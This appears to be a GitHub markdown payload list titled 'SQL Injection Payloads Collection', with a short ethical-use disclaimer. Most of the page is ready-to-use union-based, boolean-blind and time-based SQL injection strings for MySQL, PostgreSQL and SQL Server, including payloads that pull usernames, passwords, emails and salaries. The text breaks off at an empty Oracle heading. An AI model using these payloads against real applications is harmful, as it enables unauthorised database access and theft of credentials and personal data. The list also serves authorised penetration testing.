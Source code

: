 # 💉 SQL Injection Payloads Collection

> **Comprehensive SQL injection payloads for ethical security testing**

## ⚠️ **ETHICAL USE ONLY**
These payloads are for authorized testing only. Use responsibly and legally.

## 🎯 Basic SQL Injection Payloads

### Union-Based SQL Injection
```sql
-- Basic union injection
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

-- Information gathering
' UNION SELECT version(),database()--
' UNION SELECT user(),@@version--
' UNION SELECT table_name,column_name FROM information_schema.columns--

-- Data extraction
' UNION SELECT username,password FROM users--
' UNION SELECT email,phone FROM customers--
' UNION SELECT id,name,salary FROM employees--
```

### Boolean-Based Blind SQL Injection
```sql
-- Basic boolean tests
' AND '1'='1
' AND '1'='2
' AND 1=1--
' AND 1=2--

-- Database enumeration
' AND (SELECT COUNT(*) FROM information_schema.tables)>0--
' AND (SELECT LENGTH(database()))>5--
' AND (SELECT SUBSTRING(database(),1,1))='a'--

-- Data extraction
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE id=1)>64--
```

### Time-Based Blind SQL Injection
```sql
-- MySQL time delays
' AND SLEEP(5)--
' AND (SELECT SLEEP(5) FROM dual WHERE database()='target_db')--
' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--

-- PostgreSQL time delays
'; SELECT pg_sleep(5)--
' AND (SELECT pg_sleep(5) WHERE version() LIKE '%PostgreSQL%')--

-- SQL Server time delays
'; WAITFOR DELAY '00:00:05'--
' AND (SELECT COUNT(*) FROM sysusers); WAITFOR DELAY '00:00:05'--

-- Oracle time delays
```